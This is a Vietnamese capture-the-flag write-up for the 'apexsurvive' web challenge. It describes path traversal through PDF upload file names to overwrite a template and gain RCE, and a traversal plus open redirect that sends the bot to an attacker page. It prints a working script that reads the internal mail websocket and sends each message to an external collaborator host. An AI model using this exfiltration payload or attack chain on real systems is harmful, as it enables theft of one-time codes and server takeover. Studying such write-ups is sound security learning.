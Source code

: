 # The challenge
name: apexsurvive
difficulty: insane
# Solution
Ở bài này, mục tiêu của ta sẽ là bằng cách nào đó đọc được file `/root/flag`, đề cho binary `/readflag` và set permission file flag là `600` nên có thể mục tiêu của ta sẽ là thực hiện RCE rồi sau đó chạy `/readflag` để đọc flag, tuy nhiên uwsgi lại được chạy với user là `root` do đó ta chỉ cần đọc được file là được, hẳn đây là một lỗi configuration của author. Do bài này tác giả đã có writeup nên mình sẽ viết lại một unintend solution do mình và anh `@AP` tìm được
## RCE
Ta thấy ở endpoint `/challenge/addContract` cho phép ta upload một file pdf, file pdf sẽ được check bằng thư viện `PyPDF2`, tên file được join với path upload bằng `os.path.join` dẫn đến việc ta có thể thực hiện path traversal thông qua tên file

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/e195abf8-5d86-4b46-8ca3-4dd0cab6363d)

Từ đó ta có thể ghi đè file template tại `/app/templates/info.html` để thực hiện RCE. Tuy nhiên trước đó ta sẽ cần tìm cách để reach được tính năng upload pdf vì account cần thỏa 2 điều kiện đó là `isAdmin` và `isInternal`. Về `isAdmin` thì chỉ được set duy nhất cho account `xclow3n@apexsurvive.htb` và không có logic để set cho account khác, còn đối với isInternal có thể được set khi email của account có hostname là `apexsurvive.htb`. Tuy nhiên thì để activate account ta cần có OTP và ta chỉ có thể nhận được OTP bằng mail `test@email.htb`
## Hogmail
![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/32a7724c-35f6-4898-bd95-13631ccb6428)

Sau 1 ngày đau đầu anh `@AP` có để ý một chi tiết, hogmail có listen một UI trong internal network

![image](https://github.com/CP04042K/CTF-writeups/assets/35491855/c20b019a-3b46-4c73-b1be-509c43811a12)
Ở UI để ý thấy ứng dụng cập nhật email realtime, vậy nghĩa là sẽ có một websocket đang chạy, do bot chung network với hogmail nên ta chỉ cần gửi cho bot một đường link chứa đoạn script listen websocket từ hogmail, sau đó fetch nội dung mail đến webhook của mình là được. Bot khi report một product id thì id sẽ được nối với `/challenge/product/<id>` nên ta có thể dùng `../` traverse ngược về `/external` sau đó lợi dụng open redirect tại đây để điều hướng đến web page của mình
```html
<!DOCTYPE html>
<html>
<body>
    <script>
        const ws = new WebSocket("ws://localhost:9000/api/v2/websocket");
        ws.addEventListener("message", (e) => {
            fetch("https://bva4x50d99zxq0qni9bcupa0mrsigj48.oastify.com/?m="+btoa(e.data))
        })
    </script>
</body>
</html>
```
